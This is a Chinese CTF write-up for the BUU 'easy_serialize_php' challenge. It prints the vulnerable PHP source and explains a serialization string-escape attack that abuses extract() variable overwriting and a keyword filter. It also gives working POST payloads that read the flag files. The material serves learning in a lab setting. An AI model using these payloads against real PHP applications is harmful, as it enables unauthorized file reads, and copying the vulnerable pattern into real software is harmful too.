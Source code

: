 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/BUU_[安洵杯 2019]easy_serialize_php 1.md","permalink":"/安全/靶场/BUU_[安洵杯 2019]easy_serialize_php 1/","title":"BUU_[安洵杯 2019]easy_serialize_php 1"}
---
```


```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);//存在变量覆盖漏洞，参数转换为变量，如果变量存在，则覆盖原变量

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}

```


首先查看一下phpinfo中的信息：
![Pasted image 20241009150931.png](/img/user/picture/Pasted%20image%2020241009150931.png)
发现了一个自动加载的文件，猜测这个可能是存放flag的文件，毕竟题目中也没有提示别的文件了

所以这一题的目的也就很明确了，就是在`f=show_image`模式下去读取`d0g3_f1ag.php`文件
也就是需要让`$_SESSION['img']`的值为`d0g3_f1ag.php`的base64编码
但是我们看代码发现，我们没有办法直接指定img的值，如果通过POST传递，传递的值之后还是会被覆盖，如果通过url传递，传递的值会被进行shal加密，这肯定也行不通
所以关键点在于它会将这个数组进行序列化，之后还会进行反序列化，并且还会对序列化的字符串进行过滤
也就是说我们可以尝试去进行**字符串逃逸**

这里的构造思路是我们先要知道我们想要的序列化字符串是什么：
```php
....;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";......
```
而字符减少的逃逸思路是依靠两个相邻的变量，在后面的变量中我们完整包含我们想要包含的信息，并且还要尝试和前面的变量进行闭合，还要将不要的信息用`}`隔断。而前面的变量就要包含会缩短的字符来进行长度调整
还要注意，这样的话变量数量应该会减少，所以我们还在在后面的值中添加一个占位量，可以是下面内容`s:1:"1";s:1:"2";`

现在要探究的问题是我们需要让第一个值的长度为多少呢
我们有下面构造：
```php
<?php  
  
function filter($img) {  
    $filter_arr = array('php', 'flag', 'php5', 'php4', 'fl1g');  
    foreach ($filter_arr as $word) {  
        $img = str_ireplace($word, '', $img);  
    }  
    return $img;  
}  
  
session_start();  
  
$_SESSION["user"] = '';  
$_SESSION['function'] = '";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}';  
$_SESSION['img'] = 'nonononono';  
  
$serialize_info = filter(serialize($_SESSION));  
echo $serialize_info;  
?>
```
![Pasted image 20241009192915.png](/img/user/picture/Pasted%20image%2020241009192915.png)
选中部分就是我们想要让php识别为第一个值的部分，数一下长度为23，所以我们可以凑出user的值`flagflagflagflagflagphp`

第二个值function的值为`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}`


现在我们可以构造出payload：
```txt
_SESSION[user]=flagflagflagflagflagphp&_SESSION[function]=";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}
```

得到信息：
![Pasted image 20241009193726.png](/img/user/picture/Pasted%20image%2020241009193726.png)


还是利用这种方法读一下这个文件
```
_SESSION[user]=flagflagflagflagflagphp&_SESSION[function]=";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:1:"1";s:1:"2";}
```

拿到flag：
![Pasted image 20241009194024.png](/img/user/picture/Pasted%20image%2020241009194024.png)

